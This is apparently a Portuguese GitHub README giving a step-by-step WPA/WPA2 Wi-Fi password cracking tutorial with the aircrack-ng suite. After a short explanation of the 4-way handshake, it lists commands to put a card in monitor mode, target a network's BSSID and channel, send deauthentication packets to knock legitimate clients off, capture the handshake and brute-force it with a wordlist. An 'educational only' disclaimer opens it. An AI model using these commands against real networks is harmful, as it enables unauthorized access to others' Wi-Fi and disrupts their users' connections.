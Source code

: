 # Leia antes

Fiz esse texto apenas para cunho educacional e informativo, não me responsabilizo pelas atitudes dos leitores

Também fiz esse texto letra por letra, então se for copiar deixa os créditos também s2

# Pré-requisitos para fazer esse ataque:

Suíte de ferramentas do aircrack (https://www.aircrack-ng.org/)

Uma rede alvo que use o padrão WPA (1 ou 2)

Uma placa wifi que tenha suporte ao modo monitor


# Como funciona esse ataque:

Quando um dispositivo (Station ou client) vai se conectar a um roteador (Access Point ou AP) eles dois fazem uma comunicação chamada de **4 way handshake**, 4 "mensagens" que são trocadas entre esses dois onde o dispositivo vai provar para o roteador que ele tem a senha correta e o roteador vai fazer essa verificação

Entre essas quatro mensagens, as mais importantes para nós são a primeira e a segunda pois é utilizando o que vamos capturar nessa duas "mensagens" que nós vamos refazer os hashes até achar a senha correta

### Primeira mensagem
O roteador manda um **ANonce** (um valor aleatório gerado apenas para aquele handshake) para o client

### Segunda mensagem
O dispositivo pega o ANonce enviando pelo AP e monta um pacote PTK que contém as seguintes informações:
```
ANonce
SNonce (Outro nonce, mas dessa vez, gerado pelo dispositivo)
Mac address do dispositivo
Mac address do roteador
Hash da senha (a qual vamos fazer a força bruta)
```
E a partir dessas informações ele vai juntar tudo em uma hash chamada MIC e assim, ele vai mandar o MIC e o SNonce (até então o roteador não sabia, então ele precisa mandar de forma isolada pro roteador conseguir remontar esse pacote e verificar se as hashes batem)

E assim ele manda para o roteador:

```
SNonce: valoraleatorioaaa24245646
MIC: hashdasenhajuntocomtudoadawdajdiaw242002920
```

Então, a nossa função aqui é capturar essa comunicação, anotar esses valores e pegar uma wordlist boa o suficiente para a ter a senha do nosso alvo kkkk

# Vamos para a prática
Primeiro de tudo nós precisamos colocar nossa placa no modo **monitor**

Vamos fazer isso da maneira mais fácil que é utilizando a ferramento airmon-ng:
```
sudo airmon-ng start <interface que vamos usar>
```

Agora vamos escanear as redes ao nosso redor e pegar o **BSSID** (MAC address) e o canal do nosso alvo:

```
sudo airodump-ng <nossa interface em modo monitor>
```

Após anotarmos o **BSSID** e o **CH** do nosso alvo, vamos filtrar melhor as nossas buscas e também mandar a ferramenta escrever tudo que ela conseguir capturar em um arquivo:

```
sudo airodump-ng <nossa interface em modo monitor> -d <BSSID anotado> -c <CH anotado> -w captura
```

Aqui nós vamos esperar algum client legítimo se conectar nessa rede para capturarmos essa conexão e partirmos para o bruteforce. Porém eu não sou tão paciente assim e vou forçar os clients que já estão na rede a se desconectarem e quando o aparelho se conectar de volta automaticamente nós capturamos

Vamos usar outra ferramenta a suíte do aircrack


Abrimos outro terminal e colocamos:
```
sudo aireplay-ng <nossa interface em modo monitor> --deauth 10 -a <BSSID anotado>
```

Caso no terminal que nós usamos o airodump-ng aparecer algo como: **"WPA handshake: <BSSID do seu alvo>"** na parte de cima
**Você conseguiu!** Agora é só partir pro bruteforce

Para isso nós usamos o próprio aircrack-ng

```
sudo aircrack-ng captura-01.cap -w <sua wordlist>
```

> É aqui onde a ferramenta vai tentar refazer o pacote PTK e verificar se o MIC gerado vai bater com o que o client enviou para o AP

E pronto! Ataque feito, qualquer dúvida só me chamar
